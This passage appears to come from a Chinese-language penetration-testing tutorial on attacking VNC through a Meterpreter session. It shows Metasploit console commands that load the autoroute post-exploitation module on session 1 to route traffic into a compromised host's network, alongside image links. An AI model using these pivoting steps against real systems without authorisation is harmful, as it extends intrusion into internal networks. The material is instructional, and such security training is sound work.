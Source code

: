 ![](/img/hack/vnc/1508117348251.png)

### 基于meterpreter下的vnc攻击

**添加路由**,使得攻击机和被攻击机处于同一网网段：

```javascript
msf exploit(handler) > use post/multi/manage/autoroute 
msf post(autoroute) > set session 1
session => 1
msf post(autoroute) > exploit 
```

![](/img/hack/vnc/1508137801659.png)
